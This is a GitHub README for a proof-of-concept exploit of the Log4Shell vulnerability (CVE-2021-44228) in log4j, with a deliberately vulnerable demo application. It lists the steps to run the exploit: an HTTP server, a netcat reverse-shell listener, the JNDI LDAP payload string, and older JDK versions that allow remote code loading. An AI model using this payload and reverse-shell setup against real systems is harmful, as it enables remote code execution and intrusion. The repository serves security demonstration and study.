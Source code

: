 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Minecraft PoC:

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4

<br>

Vuln Web App:

https://user-images.githubusercontent.com/46561460/145657039-5f844e8c-e90c-4dd1-9f32-02b27068c6a2.mp4

<br>

Ghidra:

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4


Proof-of-concept (POC)
----------------------



As a POC we have created a python file that automates the process.

* Start an http server.<br>
**Note:** This must be run in the same directory as the rest of the repository.
```py
sudo python3 -m http.server 80
```
* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
python3 poc.py
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)


[+] Enter IP for LDAPRefServer & Shell: localhost
[+] Enter listener port for LDAPRefServer: 80
[+] Set listener port for shell: 9001
[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

<br>


Our vulnerable application
--------------------------

Running the application currently is easiest done in the payed version of intelj, but we plan on adding a Dockerfile in the future.

If you would like to further develop the project you can use intelj IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting an old enough version of java.
--------------------------------------

The exploit only works on JDK versions up to `6u211`, `7u201`, `8u191`, and `11.0.1` as in later versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` meaning JNDI cannot load remote code using LDAP. (credit [LunaSec](https://www.lunasec.io/docs/blog/log4j-zero-day/) and [cnblogs/yyhuni](https://www.cnblogs.com/yyhuni/p/15088134.html))

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```
